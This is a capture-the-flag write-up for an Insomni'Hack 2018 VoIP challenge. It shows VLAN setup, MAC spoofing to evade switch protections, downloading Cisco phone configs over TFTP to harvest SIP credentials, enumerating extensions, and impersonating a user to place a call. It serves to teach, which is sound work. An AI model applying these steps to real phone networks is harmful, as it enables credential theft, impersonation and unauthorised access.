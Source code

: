 ```yaml
---
title: Insomni'Hack 2018 - Voice-VoIP
---
```


# {{page.title}}
Solves: 6 / Points: 307

## Challenge description
```
All the LAN ports are configured for this Cisco VOIP challenge. (this challenge does not work with the Wifi !).
The characters are based around the film of the Silence of the Lambs [1991].
The flag is like in the last scene of the film.



Hint : The voip challenge is on vlan 231 or 232

Tip : Don't use same MAC address as the Network as some protection and you would trigger turn off your LAN port
```

## Challenge resolution
The first step is to set up the vlan on our network intertace:
``$ ip link add link enp9s0 name enp9s0.231 type vlan id 231``

Due to security features enabled on the switch, it is mandatory to change the MAC address of the interface before running the DHCP request:
```
$ macchanger -r enp9s0.231
$ dhclient -v enp9s0.231
```
The option 128 is present in the DHCP Offer. This option is used to specify TFTP servers available on the network. The TFTP server address is 198.51.100.20, but as there is no file listing on TFTP servers, we need to know the name of the files to download. Common practice is to name the config file with the MAC address of the phone. 
By running nmap on the VOIP subnet, we can identify a Cisco phone at 192.168.231.5 with the following MAC address: 00:1A:2F:CB:72:2A. According to Cisco documentation, the configuration file is named SIP<MAC_ADDRESS>.cnf, let's try to download it:
```
$ atftp -g -r SIP001A2FCB722A.cnf 198.51.100.20
$ cat SIP001A2FCB722A.cnf
proxy1_address: "198.51.100.118"

line1_name: "2184"
line1_shortname: "Hannibal Lecter"
line1_displayname: "Hannibal Lecter"
line1_authname: "2184"
line1_password: "kfm8mmd*8"
[...]
```
We now have:
* The IP address of the SIP server: 198.51.100.118
* Hannibal Lecter account:
    * Login: 2184
    * Password: kfm8mmd*8

But we still need to know Clarice's phone number. After an unsuccessful bruteforce to discover new user's phone number using _svwar_ from _Sipvicious_ (who is 2866?), we finally downloaded the default config file from the TFTP server:
```
$ atftp -g -r SIPDefault.cnf 198.51.100.20
$ cat SIPDefault.cnf
[...]
#services_url: "http://example.domain.tld/services/menu.xml"
#directory_url: "http://example.domain.tld/services/directory.php"
directory_url: "http://198.51.100.20/directory.xml"
[...]
``` 
Wut! A directory file is present on the TFTP server and it contains the phone number of Clarice:  6834. 
From now, we just need to set up a SIP client, impersonate Hannibal by using previously gathered credentials and call Clarice at 6834@198.51.100.118. A bot answers our call and gives us the flag.



